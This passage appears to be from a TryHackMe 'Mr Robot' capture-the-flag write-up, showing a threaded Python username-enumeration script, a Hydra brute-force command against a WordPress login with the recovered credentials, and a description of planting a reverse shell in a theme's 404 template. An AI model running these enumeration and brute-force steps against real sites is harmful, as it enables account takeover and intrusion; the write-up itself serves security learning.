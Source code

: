 ```python
            invalid_responses += 1
    r.close()

total_requests = 0
invalid_responses = 0
possible_hits = []
with open('fsociety_uniquelines.txt', 'r') as f:
    usernames = [line.strip() for line in f]
with ThreadPoolExecutor(max_workers=30) as executor:
    executor.map(checkname, usernames)
print(f'completed with {total_requests} total requests, and {invalid_responses} invalid username requests.')
print(f'possible usernames: {possible_hits}')
```

This could also be done (far quicker and easier) using Hydra, plus this python script seemed to have killed the (often frustratingly sensitive) THM machine.

Regardless, we get multiple hits for case variations on `elliot`, which likely means the login form is not case sensitive (if it was, we could add them to a file and iterate the file with hydra instead):

```bash
completed with 11451 total requests, and 11448 invalid username requests.
possible usernames: ['ELLIOT', 'Elliot', 'elliot']
```

After restarting the server, we can manually trying any of these users to validate that we didn't get random false positives:

```html
<body id="error-page">
	<p>The e-mail could not be sent.<br>
Possible reason: your host may have disabled the mail() function.</p>
</body>
```

We can now use Hydra to enumerate the password from the same file on the login page, which gives us a hit on elliot's password:

```bash
$ hydra -l elliot -P ./fsociety_uniquelines.txt 10.10.190.225 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# ...

[80][http-post-form] host: 10.10.218.32   login: elliot   password: ER28-0652
```
Logging into the dashboard and poking around, like most CMS challenges, we likely want to look for a way to get a reverse shell callback. We can't upload files with a `.php` extension, but we can edit some of the
themes template pages, which seem to execute code, to include a reverse shell. The easiest way to do this is on the template's 404 error page, so we can replace the existing code with a reverse shell and navigate to
a nonexistant page to get into the box.
